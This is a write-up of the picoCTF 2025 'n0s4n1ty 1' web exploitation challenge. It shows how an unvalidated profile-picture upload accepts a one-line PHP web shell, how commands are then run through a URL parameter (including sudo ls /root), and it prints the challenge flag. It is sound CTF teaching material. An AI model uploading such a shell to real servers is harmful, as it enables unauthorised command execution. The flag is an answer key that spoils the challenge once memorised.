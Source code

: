 # :briefcase: n0s4n1ty 1

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2025`
- **Tag**: `browser_webshell_solvable`
- **Author**: `Prince Niyonshuti N.`
- **Date**: `19/05/2025`

---

# :pencil: Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application here!

---

# :unlock: Solution

1. Access the link

    ![image1](images/image1.png)

2. Try uploading any file

    ![image2](images/image2.png)

3. Because the file upload functionality is written in PHP (as seen in the page source), we will try writing a PHP script that allows executing system commands

    ```php
    <?php system($_GET["command"]); ?>
    ```
    
    Save to PHP file

4. Upload that file to website `>` Access that file via the displayed path `>` Because we haven't entered parameter yet, it will displayed like that 

    ![image3](images/image3.png)

    Enter the URL with `?command=ls`

    ![image4](images/image4.png)

    So it works `>` Okay, since our flag is located in the `/root` directory, enter `sudo ls /root`

    ![image5](images/image5.png)

    Read it

    ![image6](images/image6.png)

---

# :white_flag: Flag

> picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}

---

# :writing_hand: Notes

- `system` — Execute an external program and display the output.
- File upload vulnerabilities are when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type, contents, or size.

---

# :books: Resources

- [PHP: system - Manual](https://www.php.net/manual/en/function.system.php)
- [File uploads | Web Security Academy](https://portswigger.net/web-security/file-upload)
- [File Upload Vulnerabilities: Advanced Exploitation Guide](https://www.intigriti.com/researchers/blog/hacking-tools/insecure-file-uploads-a-complete-guide-to-finding-advanced-file-upload-vulnerabilities)

---

# :hammer_and_wrench: Tools used

None

